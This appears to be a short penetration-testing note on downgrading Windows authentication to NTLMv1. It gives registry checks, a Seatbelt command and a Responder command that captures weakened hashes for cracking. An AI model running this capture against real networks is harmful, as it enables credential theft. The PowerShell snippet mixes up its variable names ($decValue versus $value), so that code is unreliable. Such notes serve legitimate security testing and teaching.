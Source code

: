 # NTLMv1 Downgrade

* [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
* [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
* [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)
* [https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| **Property Name**                                                                                                                                                      | **Property Path**                                  |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $value)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149):

```
Cmd > .\Seatbelt.exe NTLMSettings
```

Exploit with Responder (see [Coerce Authentication](/pentest/infrastructure/ad/coerce-authentication.md) to trigger callbacks):

```
$ sudo python Responder.py -I eth0 -v --lm --disable-ess
```
